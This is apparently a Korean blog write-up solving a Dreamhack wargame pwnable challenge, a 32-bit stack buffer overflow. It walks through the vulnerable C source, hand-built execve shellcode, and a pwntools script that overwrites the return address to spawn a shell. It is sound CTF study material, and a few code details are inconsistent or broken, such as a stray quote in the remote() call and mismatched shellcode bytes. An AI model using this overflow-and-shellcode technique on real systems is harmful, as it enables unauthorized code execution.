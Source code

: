 
---
title: basic_exploitation_000
description: Dreamhack [Wargame] - basic_exploitation_000
author: juhyeongkim
date: 2024-10-31 3:33:00 +0900
categories: [Dreamhack, Wargame]
tags: [Dreamhack, Wargame, Pwnable]
# toc: false
# comments: false
# math: true
# mermaid: true
# image:
#   path: 
#   lqip: 
#   alt: 
---

[문제 링크](https://dreamhack.io/wargame/challenges/2)

## 문제 풀이 방법

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}
```

위 코드를 보면 `initialize()` 함수에서 `SIGALRM`을 발생시키고 30초가 지나면 `alarm_handler` 함수가 수행되어 `exit(-1);`에 의해 프로그램이 종료된다.  
따라서 30초가 넘어가기 전에 해당 프로그램을 익스플로잇하여 쉘코드를 실행해야한다.

이 문제에서는 scanf 함수의 취약점을 통해 익스플로잇 할 수 있다. buf의 크기는 0x80(128)인데 141 바이트 크기의 string을 입력받고 있기 때문에, `sfp`와 `return address`를 덮어쓸 수 있다.  

```c
|-----------------------|   Low Address
|          buf          |
|          buf          |  <= 0x80
|          buf          |
|-----------------------|
|          SFP          |  <= 0x04
|-----------------------|
|          RET          |  <= 0x04
|-----------------------|   High Address
```

해당 코드에서 `printf("buf = (%p)\n", buf);`를 통해 buf의 주소를 print해주는데,

1. buffer의 주소를 return address에 넣고

2. buffer에는 쉘코드를 삽입하면 쉘을 얻을 수 있다.

<br>

## 쉘코드 작성

우리가 작성하고자 하는 쉘 코드는 `execve('bin/sh', 0, 0);`을 실행하여 쉘을 얻는 코드이다. 내용은 아래와 같다.

참고로 문제의 해당 실행 환경이 **i386(x86)** 이므로 32bit에 맞춰 어셈블리 코드를 작성해야한다. 

```
section .text
global _start

_start:
    xor eax,eax       ; 뒤에서 execve() 콜을 위해 eax를 0으로 초기화해주는 부분 (대부분 0이 들어있기 때문에 필수적이지는 않지만 권장)
    push 0x68732f     ; push 0x0068732f와 같다.
    push 0x6e69622f   ; 여기서 두번째 push때 4바이트 크기의 값이 아닌 3바이트 크기의 값이 push되면 끝에 0x00(Null String)이 추가되어 String이 이어지지 않고 끊기게 되니까 주의하자 ex) push 0x69622f
    mov ebx, esp      ; arg0 : ebx = 'bin/sh'
    xor ecx, ecx      ; arg1 : ecx = 0
    xor edx, edx      ; arg2 : edx = 0
    mov al, 0x8       ; mov eax, 0x8도 가능하지만, 더 효율적인 작업을 위해 al에 0x8 대입
    inc al            ; eax = 0x9
    inc al            ; eax = 0xa
    inc al            ; eax = 0xb
    int 0x80          ; execve call 발생
```

1. `eax`를 0으로 초기화 하는 이유는 뒤에서 eax가 아닌 `al`에 0x8을 대입하는데, al은 1바이트 공간이기 때문에 혹시라도 만약 al 상위 바이트가 0으로 초기화되어 있지 않으면 0x8이 아닌 다른 값으로 eax가 인식되기 때문에 `xor eax, eax`를 통해 0으로 초기화시켜준다.  
(만약 `mov al, 0x8`이 아닌 `mov eax, 0x8` 이라면 초기화할 필요 X)

2. 이후 push를 통해 esp에 값을 대입하는데 무조건 처음 push할 때, 나머지를 가져가고 이후 push에서는 4바이트 단위로만 push 해야 중간에 `0x00(NULL String)`이 삽입되지 않는다.

3. 32bit에서는 system call의 인자가 `rdi, rsi, rdx, ...` 순이 아닌 `ebx, ecx, edx, ...' 순이기 때문에 ebx에 esp값을 대입해주고 나머지 인자를 0으로 초기화시켜준다.

4. 32bit에서 execve의 system call 번호(eax 값)는 `0xb`인데, ASCII 값에서 `0xb`는 개행문자이므로, 이를 scanf에 입력하면 개행문자까지만 값을 받고 뒤의 값을 버리게 되기 때문에, 개행문자가 아닌 `mov al, 0x8`이후 `inc al`을 3번하여 eax에 `0xb`를 대입해야한다.

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbaFBgG%2FbtrUtG8jkdw%2FWx912dGg3GcIdDJL7ROEi1%2Fimg.png)


6. 32bit에서 systemcall은 `syscall`이 아닌 `int 0x80`으로 수행한다.

7. 이후 쉘코드를 얻어오면 다음 값을 갖는다. `\x31\xc0\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80`

<br>

## 익스플로잇 코드 작성

1. 프로그램 실행에서 buf의 주소를 print해주는데, 이 주소를 받아와서 return address에 삽입하기 위해 `buf_address`에 기록한다.    
여기서, `p.recvuntil(b'buf = (')`를 통해 받은 값은 String 값인데, 주소는 String 값이 아닌 정수 값으로 해석되기 때문에 이 String 값을 정수값으로 변경해준다. (String을 ASCII 값에 따라 정수로 해석하는 것이 아닌 정수 그 자체로 해석)
그리고 0xnnnnnnnn까지만 받아야 하므로 10byte만 받는다.

2. buf에는 shellcode를 입력하고, shellcode를 입력하고 **남은 buf 공간과**, **sfp**공간은 아무 값으로 채워서 payload에 전달해준다. (buf space + sfp space = 0x84)

3. 이후 return_address에 우리가 저장한 `buf_address`를 little endian byte string 배열로 packing해서 payload에 전달한다.

4. 공격 수행 후 쉘을 획득하면 `ls`와 `cat` 명령어를 통해 flag를 읽어온다.

익스플로잇 코드는 아래와 같다.

```py
from pwn import *

context.arch = "i386"
p = remote("host3.dreamhack.games", 21235")

p.recvuntil(b'buf = (')
buf_address = int(p.recv(10), 16) # 10byte만큼 recv후 받은 값을 16진수로 해석하여 buf_address에 저장

shellcode = b'\x31\xc0\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb8\x08\x00\x00\x00\x40\x40\x40\xcd\x80'

payload = shellcode + b'a'*(0x84-len(shellcode)) + p32(buf_address)

p.sendline(payload)

p.interactive()
```